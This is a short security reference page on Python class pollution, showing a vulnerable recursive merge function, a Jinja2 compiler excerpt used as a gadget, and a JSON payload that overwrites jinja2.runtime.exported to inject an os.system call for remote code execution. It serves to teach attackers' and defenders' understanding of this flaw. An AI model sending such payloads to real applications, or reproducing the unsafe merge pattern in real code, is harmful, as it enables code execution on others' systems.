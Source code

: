 ```yaml
---
title: "Class Pollution"
description: "Python Class Pollution"
lead: "Python Class Pollution"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "python"
weight: 620
toc: true
---
```


## Definition

**Class pollution** is a security flaw that enables an attacker to alter class variables. Depending on the available gadgets, this could result in file access or even remote code execution.

## Examples

[Pydash](https://pydash.readthedocs.io/en/latest/) `set_` and `set_with` functions or custom `merge` function:

```python
def merge(source, destination):
    for key, value in source.items():
        if hasattr(destination, "get"):
            if destination.get(key) and type(value) == dict:
                merge(value, destination.get(key))
            else:
                destination[key] = value
        elif hasattr(destination, key) and type(value) == dict:
            merge(value, getattr(destination, key))
        else:
            setattr(destination, key, value)
```

## Gadgets

### Jinja2

#### RCE

- Jinja source code: [https://github.com/pallets/jinja/blob/3.1.2/src/jinja2/compiler.py#L839](https://github.com/pallets/jinja/blob/3.1.2/src/jinja2/compiler.py#L839)

```python
def visit_Template(
    self, node: nodes.Template, frame: t.Optional[Frame] = None
) -> None:
    assert frame is None, "no root frame allowed"
    eval_ctx = EvalContext(self.environment, self.name)

    from .runtime import exported, async_exported

    if self.environment.is_async:
        exported_names = sorted(exported + async_exported)
    else:
        exported_names = sorted(exported)

    self.writeline("from jinja2.runtime import " + ", ".join(exported_names))
```

Payload:

```python
{"__init__":{"__globals__":{"__loader__": {"__init__":{"__globals__":{"sys":{"modules": {"jinja2":{"runtime":{"exported":["*;__import__('os').system('sleep 7');#"]}}}}}}}}}}
```

## References

- [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)
- [https://ctftime.org/writeup/36082](https://ctftime.org/writeup/36082)